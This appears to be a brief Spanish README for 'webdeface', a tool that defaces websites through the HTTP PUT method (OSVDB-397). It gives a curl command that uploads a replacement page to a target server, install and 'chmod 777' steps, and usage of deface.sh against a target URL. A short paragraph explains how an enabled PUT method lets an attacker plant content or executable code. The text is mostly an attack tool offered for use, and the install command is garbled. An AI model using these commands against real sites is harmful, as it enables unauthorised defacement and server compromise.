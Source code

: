 ## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index2.htm" "https://IP/index2.htm" -vv

## Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

## Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

OSVDB-397 El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.



http://www.hackingyseguridad.com/
